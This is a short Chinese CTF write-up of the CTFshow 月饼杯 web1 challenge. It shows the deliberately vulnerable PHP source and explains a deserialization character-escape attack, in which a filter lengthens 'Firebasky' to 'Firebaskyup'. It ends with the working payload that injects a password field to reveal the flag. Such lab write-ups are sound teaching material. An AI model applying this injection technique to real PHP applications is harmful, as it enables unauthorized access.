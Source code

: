 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/CTFshow_月饼杯_web1_此夜圆.md","permalink":"/安全/靶场/CTFshow_月饼杯_web1_此夜圆/","title":"CTFshow_月饼杯_web1_此夜圆"}
---
```


```php
<?php
error_reporting(0);

class a
{
    public $uname;
    public $password;
    public function __construct($uname,$password)
    {
        $this->uname=$uname;
        $this->password=$password;
    }
    public function __wakeup()
    {
            if($this->password==='yu22x')
            {
                include('flag.php');
                echo $flag; 
            }
            else
            {
                echo 'wrong password';
            }
        }
    }

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```
这题是**PHP反序列化**的题目
考点是 **字符逃逸** 字符增多

这里的字符过滤是将`Firebasky`过滤为`Firebaskyup`
也就是9个字符转化为11个字符

我们需要在uname中包含下面内容：
```
";s:8:"password";s:5:"yu22x";}
```
这一共是30个字符，所以我们要包含15个`Firebasky`

```
FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```


